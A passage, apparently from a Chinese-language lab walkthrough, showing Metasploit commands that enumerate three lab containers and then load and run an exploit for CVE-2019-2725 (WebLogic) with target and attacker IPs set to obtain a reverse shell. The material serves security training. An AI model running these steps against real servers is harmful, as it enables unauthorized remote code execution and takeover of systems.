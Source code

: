 ![](./img/find.png)

```sh
# 查看主机存活情况
hosts
# 查看发现的服务列表
services
```
![](./img/host.png)

- 三个容器ip地址：

  - 192.168.40.1  
  - 192.168.40.3 
  - 192.168.40.5

**（2）攻击开始**
```sh
# search exploit
search cve-2019-2725
# getshell
use 0
show options
# 分别设置不同的靶机 IP 
set RHOSTS 192.168.40.1  
# 设置攻击者主机 IP
set lhost 192.168.162.12
# 分别 运行
exploit -j
```